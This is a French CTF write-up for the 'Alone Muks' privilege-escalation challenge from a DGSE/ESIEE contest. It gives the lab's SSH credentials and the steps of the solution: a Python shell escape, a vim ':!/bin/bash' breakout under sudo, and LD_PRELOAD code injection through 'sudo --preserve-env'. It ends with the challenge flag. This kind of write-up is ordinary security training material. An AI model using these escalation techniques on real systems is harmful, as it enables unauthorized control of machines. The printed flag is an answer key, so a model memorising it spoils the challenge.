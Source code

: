 # Alone Muks

[Lien](https://ctf.challengecybersec.fr/7a144cdc500b28e80cf760d60aca2ed3/challenge-detail.php?chall=23)

Points : 100

Category : Pwn


## Description

Lors de votre récent séjour à Evil Country, vous êtes parvenu à brancher un dispositif sur le camion effectuant la livraison. Il faut maintenant trouver une faille sur le système pour pouvoir prendre le contrôle du camion autonome de la marque Lates et le rediriger vers un point d'extraction. Un agent a posé un dispositif nous permettant d'accéder au système de divertissement du véhicule. A partir de ce dernier, remontez jusqu'au système de navigation.
Connectez-vous en SSH au camion

Identifiants: user:user

Le serveur est réinitialisé périodiquement

Port : 5004

Le flag est de la forme DGSESIEE{hash}

## Accès

```bash
ssh -p 5004 user@challengecybersec.fr
```


## Solution

### étape 1

Sortir du script avec `Ctrl-C`

```bash
python -c import os; os.system("/bin/bash")
```

Taper `sudo -l` pour savoir à quoi on a droit.

### étape 2

```bash
/usr/bin/sudo -u globalSystem vim
```
puis `:!/bin/bash`


### étape 3

```bash
sudo -u navigationSystem /usr/bin/update AloneIsTheBest
```

Mais `/usr/bin/update` ne fait rien de spécial... son reverse permet juste de trouver un mot de passe inutile.

On va utiliser le LD_PRELOAD pour injecter du code dans le binaire, à son insu.

```bash
cc -shared -fPIC -o /tmp/toto.so preload.c
sudo LD_PRELOAD=/tmp/toto.so -u navigationSystem --preserve-env=LD_PRELOAD /usr/bin/update
```

Le flag est: `DGSESIEE{44adfb64ff382f6433eeb03ed829afe0}`
